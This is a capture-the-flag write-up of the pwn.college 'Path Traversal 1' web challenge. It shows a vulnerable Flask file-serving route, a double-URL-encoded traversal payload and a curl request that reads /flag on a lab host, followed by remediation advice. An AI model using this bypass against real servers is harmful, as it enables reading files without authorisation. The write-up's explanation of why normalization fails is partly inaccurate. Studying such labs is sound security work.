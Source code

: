 # 📄 Path Traversal 1 — pwn.college

**Category:** Web Exploitation
**Technique:** Path Traversal (Double URL Encoding Bypass)
**Difficulty:** Easy–Medium

---

## 📌 Challenge Description:

The application uses Flask to serve files via:

```
/deliverables/<path>
```

Relevant source code:

```python
@app.route("/deliverables", methods=["GET"])
@app.route("/deliverables/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path
    return open(requested_path).read()
```

The user-controlled `path` parameter is directly concatenated into the file path, potentially allowing for **path traversal** attacks.

---

## 📌 Vulnerability Analysis:

The application constructs file paths as:

```
requested_path = app.root_path + "/files/" + path
```

However, direct traversal attempts like:

```
/deliverables/../../flag
```

result in `404 Not Found`.

Reason:

* Python’s `open()` normalizes the file path automatically.
* Flask/Werkzeug normalize URLs by removing sequences like `../` or redundant slashes.

Therefore, standard traversal fails.

---

## 📌 Exploitation:

To bypass normalization, **double URL encoding** was used:

* `%2e` = `.`
* `%2f` = `/`
* `%25` = `%`

Thus:

* `%252e` decodes to `%2e` (dot) after the first decoding pass, then becomes `.` after the second.
* `%252f` similarly becomes `/`.

**Payload:**

```
/deliverables/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%66%6c%61%67
```

Which resolves to:

```
../../../../flag
```

Final path after double decoding:

```
/flag
```

**The flag was successfully retrieved.**

---

## 📍 Final Exploit Request:

```bash
curl -v 'http://challenge.localhost:80/deliverables/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%66%6c%61%67'
```

---

## 📊 Why This Worked:

* The server concatenates raw user input without proper validation.
* Path normalization only occurs after URL decoding — allowing bypass with double-encoded payloads.
* The Flask framework's protections were bypassed using **double URL encoding**.

---

## 📌 Remediation Recommendations:

* Use `os.path.realpath()` or similar to normalize and validate paths before file access.
* Block sequences like `../` or use allowlisting for file access.
* Never trust direct user input when handling file paths.
* Use dedicated secure file-serving functions in web frameworks.
